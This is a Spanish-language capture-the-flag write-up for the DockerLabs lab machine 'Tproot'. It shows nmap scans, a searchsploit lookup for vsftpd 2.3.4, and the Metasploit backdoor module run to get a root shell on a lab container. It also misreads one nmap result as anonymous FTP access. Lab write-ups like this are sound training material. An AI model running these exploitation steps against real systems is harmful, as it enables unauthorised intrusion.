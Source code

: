 #MAQUINA #DOCKERLABS #MUY_FACIL 
#MSFCONSOLE 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Tproot** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 17:56 CET
Initiating ARP Ping Scan at 17:56
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 17:56, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:56
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 17:56, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-12 17:56:36 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **21(FTP)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p21,80 172.17.0.2                        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 17:57 CET
Nmap scan report for realgob.dl (172.17.0.2)
Host is up (0.000016s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.41 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 17:57 CET
Nmap scan report for realgob.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds



```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:**
+ El puerto **21 (FTP)** es vulnerable a **ftp-anon** -> entrar con usuario anonymous sin necesidad de poner contraseña.

## FTP(21)

Al entrar con el usuario **anonymous**, no podemos hacer nada.
# EXPLOTACION

Vamos a buscar con **searchsploit** para la versión del ftp:

```bash
searchsploit vsftpd 2.3.4                                                             
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                  | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Podemos usar **metasploit** :

```bash
msfconsole
search vsftpd 2.3.4 
use 0
show options
set RHOSTS 172.17.0.2
run
```

```bash

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:45735 -> 172.17.0.2:6200) at 2025-02-12 18:09:40 +0100

whoami
root

```

**YA ESTAMOS COMO ROOT.**
